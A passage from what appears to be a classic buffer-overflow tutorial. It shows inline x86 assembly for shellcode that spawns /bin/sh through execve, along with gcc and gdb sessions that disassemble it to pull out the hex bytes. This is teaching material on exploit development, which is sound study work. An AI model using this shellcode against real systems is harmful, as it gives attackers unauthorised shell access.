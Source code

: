    Looks good. To make sure it works correctly we must compile it and run it.
But there is a problem.  Our code modifies itself, but most operating system
mark code pages read-only.  To get around this restriction we must place the
code we wish to execute in the stack or data segment, and transfer control
to it.  To do so we will place our code in a global array in the data
segment.  We need first a hex representation of the binary code. Lets
compile it first, and then use gdb to obtain it.

shellcodeasm.c
------------------------------------------------------------------------------
void main() {
__asm__("
        jmp    0x2a                     # 3 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x8(%esi)           # 3 bytes
        movb   $0x0,0x7(%esi)           # 4 bytes
        movl   $0x0,0xc(%esi)           # 7 bytes
        movl   $0xb,%eax                # 5 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x8(%esi),%ecx           # 3 bytes
        leal   0xc(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        movl   $0x1, %eax               # 5 bytes
        movl   $0x0, %ebx               # 5 bytes
        int    $0x80                    # 2 bytes
        call   -0x2f                    # 5 bytes
        .string \"/bin/sh\"             # 8 bytes
");
}
------------------------------------------------------------------------------

------------------------------------------------------------------------------
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c
[aleph1]$ gdb shellcodeasm
GDB is free software and you are welcome to distribute copies of it
 under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details.
GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 <main>:       pushl  %ebp
0x8000131 <main+1>:     movl   %esp,%ebp
0x8000133 <main+3>:     jmp    0x800015f <main+47>
0x8000135 <main+5>:     popl   %esi
0x8000136 <main+6>:     movl   %esi,0x8(%esi)
0x8000139 <main+9>:     movb   $0x0,0x7(%esi)
0x800013d <main+13>:    movl   $0x0,0xc(%esi)
0x8000144 <main+20>:    movl   $0xb,%eax
0x8000149 <main+25>:    movl   %esi,%ebx
0x800014b <main+27>:    leal   0x8(%esi),%ecx
0x800014e <main+30>:    leal   0xc(%esi),%edx
0x8000151 <main+33>:    int    $0x80
0x8000153 <main+35>:    movl   $0x1,%eax
0x8000158 <main+40>:    movl   $0x0,%ebx
0x800015d <main+45>:    int    $0x80
0x800015f <main+47>:    call   0x8000135 <main+5>
0x8000164 <main+52>:    das
0x8000165 <main+53>:    boundl 0x6e(%ecx),%ebp
0x8000168 <main+56>:    das
0x8000169 <main+57>:    jae    0x80001d3 <__new_exitfn+55>
0x800016b <main+59>:    addb   %cl,0x55c35dec(%ecx)
End of assembler dump.
(gdb) x/bx main+3
0x8000133 <main+3>:     0xeb